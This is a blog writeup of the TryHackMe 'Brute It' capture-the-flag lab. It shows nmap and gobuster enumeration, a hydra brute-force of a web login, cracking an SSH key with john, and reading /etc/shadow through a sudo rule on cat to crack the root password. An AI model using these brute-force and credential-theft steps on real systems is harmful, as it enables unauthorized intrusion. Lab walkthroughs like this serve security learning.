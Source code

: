 ```yaml
---
layout: default
title : Brute It - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 08, 2020**_

[Brute It](https://tryhackme.com/room/bruteit) Writeup


## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Brute_It$ nmap -sC -sV 10.10.140.71 -Pn
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH *.*** Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd *.*.** ((Ubuntu))
|_http-server-header: Apache/*.*.** (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.140.71/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.140.71/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```

When accessing the web page, we got something in the code source :
```
<!-- Hey john, if you do not remember, the username is ***** -->
```
So now we know that the username is `*****`, let's start brute forcing with `hydra` :).

```
bvr0n@kali:~/CTF/THM/Brute_It$ hydra -l ***** -P ~/Documents/rockyou.txt 10.10.140.71 http-post-form "/*****/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"
[DATA] attacking http-post-form://10.10.140.71:80/*****/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid
[80][http-post-form] host: 10.10.140.71   login: *****   password: ******
```
Let's grab the private key and brute force it with `john`, but first let's turn it into something john understand :
```
bvr0n@kali:~/CTF/THM/Brute_It$ /usr/share/john/ssh2john.py id_rsa > hash
bvr0n@kali:~/CTF/THM/Brute_It$ sudo john hash --wordlist=/home/bvr0n/Documents/rockyou.txt
**********       (id_rsa)
```
Now we have access into SSH.

## Internal Enum :

Looks like we have some privileges xD, we can read everything with `cat`, Let's grab the root hash inside `/etc/shadow` and crack it:
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
```
john@bruteit:/home/thm$ sudo cat /etc/shadow
root:$6$zdk0.************************************************LF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
bvr0n@kali:~/CTF/THM/Brute_It$ sudo john root.txt --wordlist=/home/bvr0n/Documents/rockyou.txt
********         (root)
```
```
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{********************}
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
